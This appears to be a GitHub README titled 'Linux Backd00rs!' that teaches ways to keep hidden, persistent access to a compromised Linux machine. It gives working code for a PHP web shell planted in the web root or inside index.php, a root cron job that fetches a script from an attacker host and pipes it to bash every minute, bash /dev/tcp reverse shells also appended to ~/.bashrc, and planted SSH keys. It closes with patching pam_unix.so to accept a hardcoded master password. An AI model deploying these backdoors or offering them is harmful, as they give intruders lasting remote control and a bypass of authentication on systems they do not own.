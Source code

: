 # Linux Backd00rs!
## @Author : M3tr1c_r00t

### 1). We can use SSH-keys...
I know your gonna say that ssh-keys aren't backdoors.
But there is one thing you should note, you can login into ssh with a pty spawn, therefore, you can be a little bit more sneaky.
#### generating ssh-keys
```
ssh-keygen -f <FILE_NAME>
```
-f - saves the ssh -key in the current directory in the name that you will assign it.
After running the command, you are going to be asked to enter a password...
If you dont want to encrypt your ssh-keys, just press enter twice.

This is going to generate 2 files, the ssh private key and the public key.
You are going to be needed to add the ssh-public key into the user's .ssh directory.
If in that directory there is a file, "authorized_keys", you can copy the contents of your public key into that file.
After that, we can login to the system using ssh.
```
ssh User@IP -i PRIVATE_SSH_KEY
```
To login without a pty shell;
```
ssh User@IP -i PRIVATE_SSH_KEY -T
```
If the directory .ssh is not present, you can always create it.
NB./ This may not work if your user isnt permitted to use ssh -keys.

Plus, if you get an RSA private key, before using it, remember to give it the appropriate read permissions.
```
chmod 400 PRIVATE_RSA_KEY
```
But it isnt a must to do this on the files generated using ssh-keygen as it does this automatically.

### 2). PHP Backdoors...
We can add this in the web root directory which is usually located at /var/www/html
With that info, you can add any php malicious code in that directory and save it as a .php file...
Example code;
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```
You can also use the php reverse shell script.
You can also add the malicious code in between the files such as the index.php file which is a lot sneaky.

### 3). Cron Jobs...
If you want to view the cron job;
```
cat /etc/crontab
```
This represents all the tasks that are scheduled to run at some time on your machine.

well, we can add a cronjob to be sending us a reverse shell every minute...
```
* *     * * *   root    curl http://YOUR_IP:PORT/shell | bash
```
This is going to run this script after every minute,hour,day,etc.
We can add this to be into the shell file contents...
```
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1
```
For this to work, we need to have set up our http.server so that the script will be able to get the file.
We also need to have set up our listener.

NB: You need to be the root user so as to be able to edit the /etc/crontab file.

### 4). [.bashrc] Backdoors....
If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
Well, we can add this payload into the .bashrc file;
```
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```
This is going to send us a reverse shell anytime the user logs into the machine.

### 5). pam_unix.so Backdoors...
the file "pam_unix.so" is one of many files in Linux that is responsible for authentication.
![image](https://user-images.githubusercontent.com/99975622/216675465-afedd319-5b0f-4c22-9b80-78edf00892d5.png)
the file "pam_unix.so" uses the "unix_verify_password" function to verify to user's supplied password.

![image](https://user-images.githubusercontent.com/99975622/216675592-7d2be4ee-b567-440e-bbe1-3d42730ad611.png)
We can modify the file as above...

Say a user types the password "password123" and tries to authenticate. We will compare his password(password123) to the string "0xMitsurugi".

If those two strings match, the authentication is successful. But those 2 strings do not match, so the authentication will not be

successful and will rely on the "unix_verify_password" function. When using the "unix_verify_password" function to authenticate, the function takes the user's password from "/etc/shadow" and compares it to the user's supplied password. This is how the intended authentication system should work. 
